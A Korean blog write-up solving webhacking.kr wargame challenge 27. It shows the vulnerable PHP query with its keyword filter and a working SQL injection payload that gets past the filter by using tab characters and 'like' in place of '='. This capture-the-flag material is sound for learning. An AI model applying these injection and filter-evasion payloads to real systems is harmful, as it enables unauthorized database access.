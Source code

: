 ```yaml
---
title: "[webhacking.kr] 27번 문제 풀이[sql injection]"
categories:
  - webhacking
tags:
  - webhacking.kr
  - wargame
  - sql injection
toc: true
toc_sticky: true
toc_label: "27번 문제 풀이"
toc_icon: "bookmark"
author_profile: true
---
```


💡 Webhacking.kr challenge(old) 27번 문제에 대한 풀이입니다.
{: .notice--warning}

# 문제
## 문제 화면
  ![image](https://user-images.githubusercontent.com/33647663/151708539-f682bb27-54cb-492b-9bc2-0c3cfb83f886.png)

## 문제 소스 코드
  ```php
  <?php
  if($_GET['no']){
  $db = dbconnect();
  if(preg_match("/#|select|\(| |limit|=|0x/i",$_GET['no'])) exit("no hack");
  $r=mysqli_fetch_array(mysqli_query($db,"select id from chall27 where id='guest' and no=({$_GET['no']})")) or die("query error");
  if($r['id']=="guest") echo("guest");
  if($r['id']=="admin") solve(27); // admin's no = 2
}
?>
  ```

  
## 문제 풀이
  **필터링 되는 문자들**
  | 1 | 2 | 3 | 4 | 5 | 6| 7 |
  |:---:|:---:|:---:|:---:|:---:|:---:|:---:|
  |#|select|(| %20 | limit | = | 0x |


  **sql**
  ```sql
  select id from chall27 where id='guest' and no = ({});
  ```

  해당 문제를 풀기 위한 1차 injection 문을 작성하면 다음과 같다
  ```md
  4) or no = 2--  
  ```
  ```sql
  select id from chall27 where id='guest' and no = ( 4) or no = 2 -- ) 
  ```

  해당 injection문에서 필터링을 우회하기 위해서 다음과 같이 바꿔준다.
  1. %20 -> %09
  2. = -> like
  
  ```md
  4)%09or%09no%09like%092--%09
  ```

  클리어 

  ![image](https://user-images.githubusercontent.com/33647663/151709496-68871636-9f18-488f-bde6-f9f993b2e356.png)

  



